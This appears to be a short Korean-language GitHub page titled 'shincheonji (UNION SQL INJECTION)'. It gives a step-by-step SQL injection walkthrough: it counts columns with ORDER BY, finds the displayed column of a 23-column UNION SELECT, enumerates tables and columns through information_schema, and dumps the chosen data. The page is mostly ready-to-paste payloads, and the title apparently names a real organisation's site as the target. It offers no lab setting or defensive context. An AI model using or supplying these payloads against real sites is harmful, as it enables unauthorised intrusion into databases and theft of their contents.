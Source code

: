 # shincheonji (UNION SQL INJECTION) 신천지 

order by: 어떤것으로 정렬 하겠다
* * *
1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
```
aa' order by 1 #
```
* * *
정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다. 그리고 찍힌 숫자의 자리에 원하는 데이터를 넣을수 있다. 11번이라면 11의 자리의 원하는 데이터를 넣을수 있다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #
```
* * *
테이블들을 출력한다. 찍힌 숫자가 11번이기 떄문데 11자리에 'table_name'을 넣은것이다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,table_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.tables where table_type='BASE TABLE' #
```
* * *
찾을 테이블의 이름을 넣어서 테이블의 컬럼들을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,column_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.columns where table_name='테이블 이름' #
```
* * *
컬럼을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,컬럼 이름,12,13,14,15,16,17,18,19,20,21,22,23 from 테이블 이름 #
```
